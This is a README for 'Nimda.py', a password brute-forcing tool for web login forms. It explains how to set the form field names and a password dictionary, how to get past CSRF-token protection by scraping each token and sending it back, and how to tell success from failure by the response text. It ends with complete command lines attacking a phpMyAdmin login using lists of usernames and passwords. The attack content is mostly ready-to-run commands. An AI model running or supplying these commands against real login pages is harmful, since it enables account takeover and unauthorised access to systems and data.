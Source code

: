 # Nimda.py
**NIMDA.py is a Bruteforcing tool for any login page.
You just need to provide necessary details and then it is ready to go.**

<img src="./img/3.png" >

## Parameters:

- *url* 
- *username* 
- *password* 
- *post-data* 
- *csrf-selector* 
- *csrf-token-name* 
- *content-text* 
- *not-content-text* 
- *content-header* 
- *not-content-header* 
- *first-match* 
- *show-response-html* 
- *show-response-header* 
- *progress-bar* 
- *verbose* 


## Explanation

**help** -> Display help

**url** -> Set target url for submission post request
example: `python nimda.py url='http://exmpl.cm/lg.php'` 

**username** -> Set username details with HTML form name and its value
example: `<input type="text" value="site_admin" name="pg_user">`

then: `python nimda.py username='pg_user=site_admin'`

**password** -> Set dictionary file
example: `<input type="password" value="" name="pg_passwd">`

Dict file: `./lsts/passwords.lst`

then: `python nimda.py password='pg_passwd=./lsts/passwords.lst'`


Some login forms are protected with some CSRF TOKENS.
Web page generates token injects in login page and excepts this value for next login request.
If it isn't there or is incorrect value then server blocks our requests.
But we can bypass it by specifying csrf-token-name and csrf-selector
example: <input type="hidden" value="GFHKJ4576jhasldL:IUGBVCRTU" name="cstf_hid_token">`
then: `csrf-token-name='cstf_hid_token'`
And `csrf-selector` is `document.querySelector` syntax in order to find this value inside response HTML and send it back.

then: `csrf-selector='input[name="cstf_hid_token"]'
so result looks like:
```
python nimda.py url='http://exmpl.cm/lg.php' username='pg_user=site_admin' password='pg_passwd=./lsts/passwords.lst' csrf-token-name='cstf_hid_token' csrf-selector='input[name="cstf_hid_token"]'
```


**post-data** -> it is all post data parameters+value except csrf-token username and password
example: 
```
<input type="submit" name="login" value="Sign In">
<input type="hidden" name="error" value="0">
```
then: `data='login=Sign In&error=0'`


**content-text** -> Set unique text that contains only if page has successful authentication response
Like: **Welcome**, **Successful login** and etc.


**not-content-text** -> Set unique text that contains unsuccessful authentication response and isn't display in success response
Like: **Wrong**, **Incorrect login** and etc.

**content-header** and **not-content-header** are working likwise

**progress-bar** -> Display progress

**verbose** -> display more text

**first-match** -> Stop when program finds first match combination 


# Example of brute-forcing *phpmyadmin*

HTML form: 
```
 <form method="post" action="index.php" name="login_form" class="disableAjax login hide js-show">
    <fieldset>
    	<legend>Log in<a href="./doc/html/index.html" target="documentation"><img src="themes/dot.gif" title="Documentation" alt="Documentation" class="icon ic_b_help" /></a>
        </legend>
        <div class="item">
            <label for="input_username">Username:</label>
            <input type="text" name="pma_username" id="input_username" value="" size="24" class="textfield"/>
        </div>
        <div class="item">
            <label for="input_password">Password:</label>
            <input type="password" name="pma_password" id="input_password" value="" size="24" class="textfield" />
        </div>
        <input type="hidden" name="server" value="1" />
    </fieldset>
    <fieldset class="tblFooters">
        <input value="Go" type="submit" id="input_go" />
        <input type="hidden" name="target" value="index.php" />
        <input type="hidden" name="token" value="4d604030d09328d67c268585d47134b9" />
    </fieldset>
    </form>
```

Post data:
```
pma_username=root&pma_password=blahblah&server=1&target=index.php&token=4d604030d09328d67c268585d47134b9
```
*token* is CSRF protection 

Displays Error : `Access denied for user` which is only if authentication fails

Our Code for Brute-forcing is:

```
python nimda.py url='http://localhost/phpmyadmin/index.php' username='pma_username=root,admin,nimda,ttu' password='pma_password=./small.txt' csrf-token-name='token' csrf-selector='input[name="token"]' post-data='server=1&target=index.php' not-content-text='Access denied for user'
```
<img src="./img/1.png">


```
python nimda.py url='http://localhost/phpmyadmin/index.php' username='pma_username=root,admin,ttu,nimda' password='pma_password=./small.txt' csrf-token-name='token' csrf-selector='input[name="token"]' post-data='server=1&target=index.php' content-text='information_schema' progress-bar
```
<img src="./img/2.png">
